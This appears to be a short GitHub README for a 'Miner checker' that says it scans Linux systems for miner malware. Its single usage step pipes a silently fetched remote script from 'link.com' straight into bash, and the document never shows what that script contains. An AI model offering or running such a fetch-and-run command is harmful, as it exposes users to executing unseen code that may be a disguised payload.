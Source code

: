 # Miner checker
A miner checker for your system
Supported systems:
 + Ubuntu
 + Debian
 + Centos

Check your system for miner-virus:
``bash <(curl -s link.com)``
